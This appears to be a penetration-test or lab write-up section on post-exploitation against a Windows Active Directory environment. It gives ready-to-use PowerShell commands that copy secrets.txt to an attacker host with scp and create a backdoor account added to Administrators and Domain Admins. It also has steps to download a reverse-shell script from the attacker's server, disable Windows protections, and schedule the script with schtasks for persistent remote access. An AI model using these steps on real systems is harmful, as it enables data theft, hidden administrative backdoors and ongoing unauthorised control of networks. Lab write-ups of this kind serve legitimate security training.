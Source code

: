 ### Data Exfiltration & Persistence

#### **Data Exfiltration**
Once we gained access, we identified a file named `secrets.txt`. To securely transfer this file without leaving significant traces, we used the Secure Copy Protocol (SCP) to copy it from the compromised machine to the attacker's machine over SSH.

**On the Windows machine:**
```powershell
scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
```
After entering the attacker’s password, the file is successfully transferred to the attacker's machine.

---
#### **Persistence**
To maintain long-term access to the compromised environment, we create a backdoor account with administrative privileges on the Domain Controller.

**On the Windows Domain Controller (PowerShell):**
```powershell
net user project-x-user @mysecurepassword /add
```
To escalate privileges and blend in with legitimate users, we modify the account:
```powershell
net user project-x-user @mysecurepassword1! /add
net localgroup Administrators project-x-user /add
net group "Domain Admins" project-x-user /add
```

---
#### **Reverse Shell for Remote Access**
To maintain remote access, we create a reverse shell on the Active Directory server.

1. **Download Reverse Shell Script**
   - Open a browser on the compromised Windows machine and navigate to the attacker’s machine:
   - `http://10.0.0.50:8000`
   - Download `reverse.ps1` from the attacker's hosted server.
   - Save the script in:
     ```plaintext
     C:\Users\Administrator\AppData\Local\Microsoft\Windows\
     ```

2. **Disable Security Protections**
   - Turn off all device protection under Windows security settings.

3. **Create a Scheduled Task for Persistence**
   - Open PowerShell and execute the following command to schedule execution of the reverse shell script:
   ```powershell
   schtasks /create /tn "Persistence Task" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 00:00
   ```
   - This ensures the script runs at a set time, allowing the attacker to regain access whenever needed.

Once the scheduled task triggers, the attacker receives a remote connection back, enabling them to maintain access without needing to re-exploit vulnerabilities.

This concludes **Data Exfiltration & Persistence**.

